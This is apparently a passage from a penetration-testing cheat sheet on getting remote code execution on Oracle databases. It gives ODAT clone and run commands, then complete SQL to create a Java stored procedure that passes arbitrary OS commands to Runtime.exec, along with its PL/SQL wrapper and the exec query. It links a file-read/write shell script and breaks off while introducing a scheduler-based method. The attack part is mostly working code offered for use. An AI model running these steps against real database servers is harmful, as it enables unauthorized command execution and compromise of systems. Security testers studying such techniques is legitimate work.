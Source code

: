 ```bash
git clone https://github.com/quentinhardy/odat.git
cd odat
./odat.py #It shouldn't be problems in Kali
```

<h3>Execute Code via Java Stored Procedure</h3>

```bash
./odat.py java -s <IP> -U <username> -P <password> -d <SID> --exec COMMAND
```

<h3>RCE: Java Store Procedure</h3>

So, imagine that you have the administrator account information. In this case, a very popular way to execute your command on the server is to write a ‘java stored’ procedure. This is done in three stages. First, create a Java class called ‘oraexec’. To do this, connect via ‘sqlplus’ terminal and write:

```sql
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
  public class oraexec
  {
    public static void execCommand(String command) throws IOException
    {
      Runtime.getRuntime().exec(command);
    }
  }
/
```

Next, write a PL/SQL wrapper for this class:

```sql
create or replace procedure javacmd(p_command varchar2) as language java name 'oraexec.execCommand(java.lang.String)'; /
```

That’s it. Now, to execute a command, all you need is just to send the following query:

```sql
exec javacmd('command');
```

Note that when using the above procedure, we cannot see the results of executed command, however, you can redirect the output to a file and read it. You can find the full code of the shell that allows to read and write files:

[raptor_oraexec.sql](https://secybr.com/assets/file/raptor_oraexec.sql)

However, there is a [more sophisticated script] (goo.gl/EuwPRU) that handles the command output, but it has a larger size [here](https://oracle-base.com/articles/8i/shell-commands-from-plsql).

<h3>RCE: Scheduler</h3>

The next method, which will help us if there is no Java virtual machine, is to use ‘dbmsscheduler’, the built-in task scheduler of Oracle. To use it, you must have the privilege `CREATE EXTERNAL JOB`. Here’s a code sample that implements the entry of ‘0wned’ string into a text file in the root of the C: drive:
